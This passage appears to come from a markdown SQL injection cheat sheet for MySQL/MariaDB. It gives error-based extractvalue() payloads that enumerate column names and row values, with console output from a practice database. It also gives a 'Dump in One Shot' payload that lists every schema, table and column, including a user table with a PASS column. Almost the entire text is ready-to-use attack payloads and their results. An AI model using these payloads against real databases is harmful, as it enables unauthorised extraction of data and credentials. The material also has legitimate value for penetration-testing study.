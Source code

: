     ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 0,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~ID~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='menu' LIMIT 1,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~NAME_MENU~'
    ```

  - Payload:

    ```mysql
    select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 0,1)))
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 0,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 2~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 1,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 4~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 2,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 5~'
    MariaDB [xssuser]> select * from menu where id = 1 and extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),NAME_MENU,CHAR(126)) FROM menu LIMIT 3,1)));
    ERROR 1105 (HY000): XPATH syntax error: ':~Menu 6~'
    ```

### 10. Mysql DIOS - Dump in One Shot

- Payload:

  ```mysql
  (select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and(@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)
  ```

  ```mysql
   [ performance_schema ] > threads > PROCESSLIST_COMMAND|
   [ performance_schema ] > threads > PROCESSLIST_TIME|
   [ performance_schema ] > threads > PROCESSLIST_STATE|
   [ performance_schema ] > threads > PROCESSLIST_INFO|
   [ performance_schema ] > threads > PARENT_THREAD_ID|
   [ performance_schema ] > threads > ROLE|
   [ performance_schema ] > threads > INSTRUMENTED|
   [ performance_schema ] > users > USER|
   [ performance_schema ] > users > CURRENT_CONNECTIONS|
   [ performance_schema ] > users > TOTAL_CONNECTIONS|
   [ xssuser ] > menu > ID|
   [ xssuser ] > menu > NAME_MENU|
   [ xssuser ] > user > ID|
   [ xssuser ] > user > USER|
   [ xssuser ] > user > PASS|
   [ xssuser ] > user > USERID|
   [ xssuser ] > user > LEVEL| |
  +-----------------------------------------------------------------------------------------------------------------------------------------------------
  ```
